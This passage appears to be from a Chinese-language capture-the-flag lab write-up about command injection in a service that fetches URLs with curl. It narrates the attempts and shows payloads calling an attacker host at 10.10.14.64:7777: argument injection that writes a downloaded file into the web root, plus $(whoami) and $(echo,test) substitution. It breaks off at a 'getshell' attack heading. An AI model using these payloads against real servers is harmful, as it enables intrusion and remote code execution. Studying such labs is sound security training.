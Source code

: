 ![Screenshot_20240416_225459](./图/Screenshot_20240416_225459.png)

##### (4).xss文件传输_失败

```c
让我们看看新的消息，让我们将这些放在引号中，我之所以尝试这种类型的命令注入，是因为用户代理是 curl
    如果用户代理是像 Python 请求那样的，我可能不会做什么，但因为用户代理是一个 Linux 程序
    我知道他们正在调用 bash 来执行这个，所以让我们看看，我的想法是...
```

```c
"http://10.10.14.64:7777/test" "-o" "/var/www/html/test"
```

![Screenshot_20240416_230239](./图/Screenshot_20240416_230239.png)

![Screenshot_20240416_225459](./图/Screenshot_20240416_225459.png)

##### (5).xss命令执行

```c
http://10.10.14.64:7777/$(whoami)
```

```c
/*****************************************************************************
所以我要发布这条消息，然后我们回到这里，我们得到了网页，因为它说的是网页而不是像命令注入那样的
我知道我们刚刚执行了代码，所以现在我们可以玩一下了，现在最简单的事情可能是去用 Burp Suite 拦截它
然后在这个 Repeater 标签中玩，我按下了 Windows 键和 L 键来发送它
*********************************************************************************/
```

![Screenshot_20240416_230239](./图/Screenshot_20240416_230239.png)

#### 3).getshell

```c
http://10.10.14.64:7777/$(echo+test)
http://10.10.14.64:7777/$(echo,test)

没有一丝丝反应,还是老旧的反应
```

![Screenshot_20240417_000556](./图/Screenshot_20240417_000556.png)

##### (1).命令注入原理

```c
http://10.10.14.64:7777/$(echo,test)
```

![Screenshot_20240417_001124](./图/Screenshot_20240417_001124.png)

![Screenshot_20240417_001424](./图/Screenshot_20240417_001424.png)

###### _攻击
